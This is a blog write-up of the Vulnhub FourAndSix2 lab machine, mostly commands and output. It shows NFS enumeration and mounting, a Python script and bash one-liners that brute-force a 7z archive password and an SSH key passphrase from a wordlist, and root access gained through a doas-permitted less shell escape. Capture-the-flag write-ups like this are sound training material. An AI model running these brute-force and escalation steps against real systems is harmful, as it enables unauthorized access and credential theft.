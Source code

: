 ```yaml
---
layout:     post
title:      "Vulnhub.com - FourAndSix2"
date:       2018-12-10 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Task is to become root and read /root/flag.txt.

* Author: [Fred](https://www.vulnhub.com/author/fred,583/)
* Download: [https://www.vulnhub.com/entry/fourandsix-201,266/](https://www.vulnhub.com/entry/fourandsix-201,266/)

### Solution

We can start by running `nmap` on our target IP.

{% highlight text %}
root@kali:~# nmap -sC -sV -sS -A 10.0.0.7
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-07 05:41 EST
Nmap scan report for 10.0.0.7
Host is up (0.00085s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          658/udp  mountd
|_  100005  1,3          942/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 10.0.0.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.75 seconds
{% endhighlight %}

There is `nfs` up and running. We can use `showmount` to view if there are any mountable shares. 

{% highlight text %}
root@kali:~# showmount -e 10.0.0.7
Export list for 10.0.0.7:
/home/user/storage (everyone)
{% endhighlight %}

Great, we have open share, which we can mount. 

{% highlight text %}
root@kali:~# mkdir /tmp/storage
root@kali:~# mount -t nfs 10.0.0.7:/home/user/storage /tmp/storage
root@kali:~# cd /tmp/storage/
root@kali:/tmp/storage# ls -la
total 68
drwxr-xr-x  2 1000 1000   512 Oct 29 08:28 .
drwxrwxrwt 16 root root  4096 Dec  7 06:07 ..
-rw-r--r--  1 1000 1000 62111 Oct 29 08:28 backup.7z
{% endhighlight %}

And now we have a file called `backup.7z` to analyze. 

{% highlight text %}
root@kali:/tmp/storage# 7z e backup.7z 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-2410M CPU @ 2.30GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : hello1.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello2.png
ERROR: Data Error in encrypted file. Wrong password? : hello3.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello4.png
ERROR: Data Error in encrypted file. Wrong password? : hello5.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello6.png
ERROR: Data Error in encrypted file. Wrong password? : hello7.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello8.jpeg
ERROR: Data Error in encrypted file. Wrong password? : id_rsa
ERROR: Data Error in encrypted file. Wrong password? : id_rsa.pub
                 
Sub items Errors: 10

Archives with Errors: 1

Sub items Errors: 10
{% endhighlight %}

It's password protected, but while opening we can see some interesting files like `id_rsa`. As they may help us to get into the `ssh`, I decided to brute force the password with this little Python script. 

{% highlight python %}
#!/usr/bin/env python2
import os,sys
     
f = open(sys.argv[1],'r')
lines = f.read().splitlines()
     
for line in lines:
    x = os.system('7z e {0} -p{1}'.format(sys.argv[2],line))
    if x == 0:
    	print '[~] Password is : {0}\n\n'.format(line)
    	exit(1)
     
print '[!] Password not found in the provided list!\n\n'
{% endhighlight %}

Now let's run it and wait for the results. 

{% highlight text %}
root@kali:/tmp/storage# python brute.py /usr/share/wordlists/rockyou.txt backup.7z

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

Everything is Ok

Files: 10
Size:       64066
Compressed: 62111
[~] Password is : chocolate
{% endhighlight %}

Now that we have everything decompressed, let's view the files. Firstly, in `id_rsa.pbu` we have name of the user. It will be essential for logging into the `ssh`.

{% highlight text %}
root@kali:/tmp/storage# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
{% endhighlight %}

Unfortunately, we also need a passphrase for the key.

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
The authenticity of host '10.0.0.7 (10.0.0.7)' can't be established.
ECDSA key fingerprint is SHA256:6ERaSFrckV66j7RBrFiTjwlQs8WMfIiGZSLNj4otVb4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.0.7' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
{% endhighlight %}

After trying to find clues in decompressed images, I decided to run another brute force attack.

{% highlight text %}
root@kali:/tmp/storage# ssh2john id_rsa > hash
! id_rsa : input keyfile validation failed
{% endhighlight %}

As `ssh2john` could not get the hashes from the key, I decided to run this simple one liner brute forcer with bash.

{% highlight text %}
root@kali:/tmp/storage# cat /usr/share/wordlists/rockyou.txt | while read pass; do if ssh-keygen -c -C “user@forandsix” -P $pass -f id_rsa &>/dev/null; then echo $pass; break; fi; done
12345678
{% endhighlight %}

And this time, we have a password `12345678`. Finally, we can log into the system. 

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ ls -la
total 40
drwxr-xr-x  4 user  user   512 Oct 29 13:27 .
drwxr-xr-x  3 root  wheel  512 Oct 29 13:03 ..
-rw-r--r--  1 user  user    87 Oct 11 21:18 .Xdefaults
-rw-r--r--  1 user  user   771 Oct 11 21:18 .cshrc
-rw-r--r--  1 user  user   101 Oct 11 21:18 .cvsrc
-rw-r--r--  1 user  user   359 Oct 11 21:18 .login
-rw-r--r--  1 user  user   175 Oct 11 21:18 .mailrc
-rw-r--r--  1 user  user   215 Oct 11 21:18 .profile
drwx------  2 user  user   512 Oct 29 14:02 .ssh
drwxr-xr-x  2 user  user   512 Dec  8 12:24 storage
{% endhighlight %}

Doing simple enumaration for any misconfigured services, I've found `doas` tool.

{% highlight text %}
fourandsix2$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
/usr/bin/at
/usr/bin/atq
/usr/bin/atrm
/usr/bin/batch
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/doas
/usr/bin/lock
/usr/bin/lpq
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/skeyaudit
/usr/bin/skeyinfo
/usr/bin/skeyinit
/usr/bin/ssh-agent
/usr/bin/su
/usr/bin/wall
/usr/bin/write
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/lpc
/usr/sbin/lpd
/usr/sbin/pppd
/usr/sbin/smtpctl
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown
/var/audit
{% endhighlight %}

After viewing it's configuration files, we can see that it's possible to run `/usr/bin/less args /var/log/authlog` as root with `doas`. 

{% highlight text %}
fourandsix2$ cat /etc/doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root

fourandsix2$ doas /usr/bin/less /var/log/authlog
{% endhighlight %}

From that, further exploitation is trivial as we have to enter `!sh` in order to run commands just like in `vim`. 

{% highlight text %}
fourandsix2# cd /root
fourandsix2# ls -la
total 40
drwx------   3 root  wheel  512 Oct 29 13:26 .
drwxr-xr-x  13 root  wheel  512 Dec  8 12:32 ..
-rw-r--r--   1 root  wheel   87 Oct 11 21:18 .Xdefaults
-rw-r--r--   1 root  wheel  578 Oct 11 21:18 .cshrc
-rw-r--r--   1 root  wheel   94 Oct 11 21:18 .cvsrc
-rw-r--r--   1 root  wheel    5 Oct 29 13:03 .forward
-rw-r--r--   1 root  wheel  328 Oct 11 21:18 .login
-rw-r--r--   1 root  wheel  468 Oct 11 21:18 .profile
drwx------   2 root  wheel  512 Oct 29 14:02 .ssh
-rw-r--r--   1 root  wheel  426 Oct 29 13:25 flag.txt
fourandsix2# cat flag.txt                                                      
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
{% endhighlight %}